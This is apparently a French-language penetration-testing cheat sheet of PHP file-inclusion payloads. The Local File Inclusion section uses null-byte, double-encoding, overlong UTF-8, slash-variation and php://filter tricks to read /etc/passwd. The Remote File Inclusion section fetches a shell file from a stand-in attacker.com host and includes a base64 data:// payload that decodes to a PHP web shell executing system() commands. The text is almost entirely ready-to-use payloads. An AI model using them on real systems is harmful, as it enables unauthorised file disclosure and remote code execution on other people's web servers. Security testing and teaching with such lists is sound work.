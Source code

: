 ### Techniques de bypass

#### Null byte (anciennes versions PHP)
```bash
?file=../../../etc/passwd%00
?file=../../../etc/passwd%00.jpg
?file=../../../etc/passwd\0
```

#### Encodage et variations
```bash
# Encodage URL double
?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Encodage UTF-8
?file=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd

# Variations de slash
?file=....//....//....//etc/passwd
?file=..\..\..\..\etc\passwd

# 16-bit Unicode
?file=.%u002e/.%u002e/.%u002e/etc/passwd
```

#### Techniques de contournement
```bash
# Ajout d'extension forcée
?file=../../../etc/passwd.....
?file=../../../etc/passwd//..//..//..///

# Utilisation de wrappers
?file=php://filter/read=convert.base64-encode/resource=../../../etc/passwd
?file=compress.zlib://data/who/cares/about/path?/../../../etc/passwd
```

## 🌐 Remote File Inclusion (RFI)

### Tests de base RFI
```bash
# Inclusion HTTP
?file=http://attacker.com/shell.txt
?file=http://attacker.com/shell.txt?
?file=http://attacker.com/shell.txt%00

# Inclusion FTP
?file=ftp://attacker.com/shell.txt

# Inclusion avec protocoles
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4K
```
